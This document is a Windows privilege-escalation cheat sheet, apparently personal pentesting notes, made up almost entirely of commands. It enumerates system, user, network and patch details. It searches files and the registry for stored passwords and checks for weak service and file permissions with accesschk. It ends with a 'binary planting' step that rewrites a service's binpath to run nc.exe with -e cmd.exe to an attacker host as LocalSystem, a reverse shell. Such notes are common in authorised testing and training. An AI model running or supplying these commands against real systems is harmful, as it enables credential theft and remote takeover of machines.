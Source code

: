 # windows priv escalation

Ref: 

* [https://www.youtube.com/watch?v=kMG8IsCohHA](https://www.youtube.com/watch?v=kMG8IsCohHA)
* [https://www.youtube.com/watch?v=\_8xJaaQlpBo](https://www.youtube.com/watch?v=_8xJaaQlpBo)
* [http://www.greyhathacker.net/?p=738](http://www.greyhathacker.net/?p=738)



* What system are we connected to? 
  * systeminfo \| findstr /B /C:"OS Name" /C:"OS Version"
* Get the hostname and username \(if available\) 
  * hostname 
  * echo %username%
* Get users 
  * net users 
  * net user \[username\]
* Networking stuff 
  * ipconfig /all
* Printer? 
  * route print
* ARP-arific 
  * arp -A
* Active network connections 
  * netstat -ano
* Firewall fun \(Win XP SP2+ only\) 
  * netsh firewall show state 
  * netsh firewall show config
* Scheduled tasks 
  * schtasks /query /fo LIST /v
* Running processes to started services 
  * tasklist /SVC 
  * net start
* Driver madness 
  * DRIVERQUERY
* WMIC fun \(Win 7/8 -- XP requires admin\) 
  * `wmic /?`
  * `#Use wmic_info script!`
* WMIC: check patch level 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn
* Search pathces for given patch 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn \| findstr /C:"KB.." /C:"KB.."
* AlwaysInstallElevated fun 
  * reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
  * reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
* Other commands to run to hopefully get what we need 
  * dir /s _pass_ == _cred_ == _vnc_ == _.config_ 
  * findstr /si password _.xml_ .ini \*.txt 
  * reg query HKLM /f password /t REG\_SZ /s 
  * reg query HKCU /f password /t REG\_SZ /s
* Service permissions 
  * sc query 
  * sc qc \[service\_name\]
* Accesschk stuff 
  * accesschk.exe /accepteula \(always do this first!!!!!\) 
  * accesschk.exe -ucqv \[service\_name\] \(requires sysinternals accesschk!\) 
  * accesschk.exe -uwcqv "Authenticated Users" \* \(won't yield anything on Win 8\) 
  * accesschk.exe -ucqv \[service\_name\]
  * Find all weak folder permissions per drive. 
    * accesschk.exe -uwdqs Users c: 
    * accesschk.exe -uwdqs "Authenticated Users" c:\
  * Find all weak file permissions per drive. 
    * accesschk.exe -uwqs Users c:\*.\*
    * accesschk.exe -uwqs "Authenticated Users" c:\.\*
* Binary planting 
  * sc config \[service\_name\] binpath= "C:\nc.exe -nv \[RHOST\] \[RPORT\] -e C:\WINDOWS\System32\cmd.exe" 
  * sc config \[service\_name\] obj= ".\LocalSystem" password= "" 
  * sc qc \[service\_name\] \(to verify!\) 
  * net start \[service\_name\]

Ref:  [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

